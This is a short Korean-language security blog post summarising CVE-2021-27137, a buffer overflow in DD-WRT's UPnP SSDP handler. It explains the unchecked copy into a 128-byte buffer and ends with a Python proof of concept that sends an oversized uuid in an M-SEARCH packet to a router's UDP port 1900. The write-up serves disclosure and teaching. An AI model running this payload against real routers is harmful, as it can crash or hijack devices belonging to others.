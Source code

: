 ```yaml
---
title: "[하루한줄] CVE-2021-27137: DD-WRT UPNP Buffer Overflow"
author: insu
tags: [insu, cve, dd-wrt, bof]
categories: [1day1line]
date: 2021-03-21 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[SSD Advisory – DD-WRT UPNP Buffer Overflow](https://ssd-disclosure.com/ssd-advisory-dd-wrt-upnp-buffer-overflow/)

## Target

- DD-WRT

## Explain
리눅스 기반의 무선 라우터 및 액세스 포인트 펌웨어인 DD-WRT에서 인증되지 않은 사용자가 버퍼 오버플로우를 통해 Code Execution을 할 수 있는 취약점이 발견되었습니다.

Universal Plug and Play(UPNP)는 컴퓨터, 프린터, 인터넷 게이트웨이, 와이파이 access point, 모바일 장치와 같은 네트워크 장치들이 네트워크에서 서로를 탐색하고 네트워크 서비스 기능을 제공하는 네트워크 프로토콜입니다. 기본 설정에서 DD-WRT의 UPNP는 비활성화되어 있습니다. UPNP는 UDP 형식의 인증되지 않은 프로토콜로 DD-WRT에 UPNP 서비스가 활성화된 경우 DD-WRT의 LAN에 있는 해커가 큰 크기의 `uuid` 값을 전송하여 버퍼 오버플로우를 트리거할 수 있습니다. 취약점이 존재하는 `ssdp.c` 코드는 다음과 같습니다.

![img](https://ssd-disclosure.com/wp-content/uploads/2021/03/image-1024x590.png)

name 버퍼의 크기는 128 bytes이지만, 데이터를 복사할 때 데이터 크기 값에 대한 검증이 존재하지 않아서 버퍼 오버플로우가 발생합니다. 해당 취약점의 POC는 아래와 같습니다.

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```

